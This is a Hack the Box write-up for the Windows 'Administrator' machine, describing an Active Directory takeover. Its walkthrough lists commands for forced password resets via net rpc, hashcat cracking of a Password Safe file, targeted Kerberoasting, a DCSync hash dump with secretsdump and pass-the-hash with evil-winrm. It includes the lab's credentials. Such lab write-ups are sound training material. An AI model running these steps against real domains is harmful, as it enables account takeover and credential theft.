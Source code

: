 # Administrator

**Platform: Hack the Box**

**OS: Windows**

**Diffculty: Medium**


## Table of Contents
- [Key Learnings](key-learnings)


## Key Learnings

- Familiarize myself with enumerating AD networks using Bloodhound
- Abuse GenericAll and ForceChangePassword privileges to change user passwords using *net rpc*
- Exploit GenericWrite privileges by running a targeted kerberoasting attack on vulnerable account
- Abuse DCSync privs to dump SAM and LSA hashes and compromise the Domain Controller by passing the hash
- Use Hashcat to crack .psafe3 file


## **Disclaimer: Potential spoilers below**


## Walkthrough

1. Run nmap scan
2. Given olivia's credentials, run bloodhound to gather AD info

	```sudo bloodhound-python -d administrator.htb -u olivia -p ichliebedich -ns [IP] -c all```

4. load bloodhound info
5. bloodhound finds that olivia has GenericAll privs over michael

![image](https://github.com/user-attachments/assets/465491ec-fada-4fb5-93a8-c87657433cbe)

5. change michael's password
	
 	```net rpc password "michael" -U "administrator.htb"/"olivia" -S "[IP]"```

![image](https://github.com/user-attachments/assets/2b513753-0287-4187-87ad-8c5822921a5b)

6. michael has ForceChangePassword permission over benjamin

![image](https://github.com/user-attachments/assets/908af74c-ab83-4ecd-841c-7a0a2424dda1)

7. change benjamin's password 
	
 	```net rpc password "benjamin" -U "administrator.htb"/"michael" -S "[IP]"```

![image](https://github.com/user-attachments/assets/075d1086-566b-4d1a-aaa8-3410f46b5664)

8. benjamin can login to ftp, get Backup.psafe3 file

![image](https://github.com/user-attachments/assets/4788173f-4ac8-4391-ae25-0f660d10286f)

9. use hashcat to crack password on psafe3
	
 	```hashcat -m 5200 Backup.psafe3 /usr/share/wordlists/rockyou.txt```

10. reveals password for psafe3 file is `tekieromucho`
11. opening the psafe3 file reveals 3 credentials:
	1. alexander
	2. emily
	3. emma
12. bloodhound shows the emily has GenericWrite privs over ethan

![image](https://github.com/user-attachments/assets/efa95615-b1f6-49df-9c9f-52138705e2c6)

13. before doing kerberoast attack, need to fix clock skew
	1. On actual machine, not VM, go to cmd and cd into this folder `C:\Program Files\Oracle\VirtualBox`
	2. run this command `VBoxManage setextradata "VM name" "VBoxInternal/Devices/VMMDev/0/Config/GetHostTimeDisabled" 1`
	3. then, on Kali VM, run `sudo rdate -n [IP]`
14. now can do a targeted kerberoast attack on ethan using emily's credentials
	
 	```targetedKerberoast.py --dc-ip [IP] -u emily -p UXLCI5iETUsIBoFVTj8yQFKoHjXmb```

![image](https://github.com/user-attachments/assets/457a3b7e-2e71-48e6-8d52-8c4f11422798)

15. this reveals ethan's password is `limpbizkit`

![image](https://github.com/user-attachments/assets/fbdf1e5a-0096-4f89-a890-97fc07a89c1b)

16. ethan has DCSync permission over Administrator.htb. This means ethan is local admin so can do secretdump
	
 	```secretsdump.py administrator.htb/ethan:limpbizkit@[IP]```

![image](https://github.com/user-attachments/assets/fdfcde64-d5a7-40ad-9af6-b515e73e8769)

![image](https://github.com/user-attachments/assets/2967cec7-9da7-4d2f-8dec-c0916ff50ca5)

17. this gives us Administrator hash so can do PtH with evil-winrm 
	
 	```evil-winrm -i [IP] -u administrator -H [HASH]```

![image](https://github.com/user-attachments/assets/27ddb48f-62ec-49d8-9ba0-a104cd4df325)

18. gives us admin shell and rooted!
